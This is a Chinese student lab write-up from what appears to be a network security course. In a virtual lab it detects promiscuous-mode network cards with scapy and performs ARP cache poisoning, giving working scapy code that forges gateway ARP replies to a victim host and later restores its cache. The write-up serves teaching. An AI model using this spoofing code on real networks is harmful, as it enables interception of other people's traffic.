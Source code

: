 ## 实验四 网络监听

### 网络拓扑

身份 | 虚拟机名称 |   IP  | MAC地址
-|-|-|-
网关 | Debian 10 | 172.16.111.1 | 08:00:27:b9:87:bc|
攻击者主机 | attacker-kali | 172.16.111.25 |08:00:27:01:aa:fc |
目标靶机 | Victim-Kali-1 | 172.16.111.107 | 08:00:27:65:d0:dd |

![](img/1.png)

![](img/2.png)

![](img/3.png)
### 实验准备

#### 安装scapy

1.在攻击者主机上提前安装好 scapy
`sudo apt update && sudo apt install python3 python3-pip`

![](img/4.png)

![](img/5.png)

`pip3 install scapy[complete]`

![](img/6.png)

#### 实验一：检测局域网中的异常终端
1.在受害者主机上检查网卡的「混杂模式」是否启用
`ip link show eth0`

![](img/7.png)

2.在攻击者主机上开启 scapy
`scapy`

![](img/8.png)

3.在 scapy 的交互式终端输入以下代码回车执行
`pkt = promiscping("172.16.111.107")`

* 使用`sudo su`切换root用户，否则会报错提升权限不够
![](img/9.png)

4.回到受害者主机上开启网卡的「混杂模式」
![](img/10.png)

此时发现输出结果里多出来了promisc
`ip link show eth0`
![](img/11.png)

5.回到攻击者主机上的 scapy 交互式终端继续执行命令，比较差异
`pkt = promiscping("172.16.111.107")`
![](img/12.png)

6.在受害者主机上手动关闭网卡的「混杂模式」
`sudo ip link set eth0 promisc off`

#### 实验二：手工单步“毒化”目标主机的 ARP 缓存

1.获取当前局域网的网关 MAC 地址
构造一个 ARP 请求
```

# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

```

![](img/13.png)

![](img/14.png)

![](img/15.png)

2.伪造网关的 ARP 响应包发送给受害者主机
```
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.107", hwdst= "08:00:27:01:aa:fc")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)


```
3.在受害者主机上查看 ARP 缓存
![](img/16.png)
没有被毒化，构造时需要加Ethernet帧头。再次在受害者主机上查看 ARP 缓存，网关的 MAC 地址已被替换为攻击者主机的 MAC 地址。
`arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.107", hwdst= "08:00:27:01:aa:fc")`
![](img/17.png)
![](img/18.png)


4.恢复受害者主机的 ARP 缓存记录
```

# 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:b9:87:bc", pdst="172.16.111.107", hwdst="08:00:27:65:d0:dd")

sendp(restorepkt1, count=100, inter=0.2)

```
![](img/19.png)
5.在受害者主机上“刷新”网关 ARP 记录

```
# 在受害者主机上ping网关
ping 172.16.111.1
# 静候几秒 ARP 缓存刷新成功，退出 ping
#  查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
### 实验问题及解决方案

1.安装pip3时报错：Resolving failed: Temporary failure in name resolution
![](img/error1-1.png)
![](img/error1-1.png)

参考网址：

https://www.cnblogs.com/attlia/p/3660752.html

https://blog.csdn.net/weixin_45588247/article/details/115762297

https://blog.csdn.net/CliffordR/article/details/89207778


2.使用scapy缺少权限
![](img/error2-1.png)
![](img/error2-2.png)

参考网址：

https://blog.csdn.net/weixin_45515936/article/details/114328920

3.如何做到kali linux 物理机和虚拟机相互复制粘贴

参考网址：

https://blog.csdn.net/weixin_44114370/article/details/89196011


### 参考资料

1.https://github.com/CUCCS/2020-ns-public-Annna777/blob/chap0x04/chap0x04/chap04.md


2.https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html
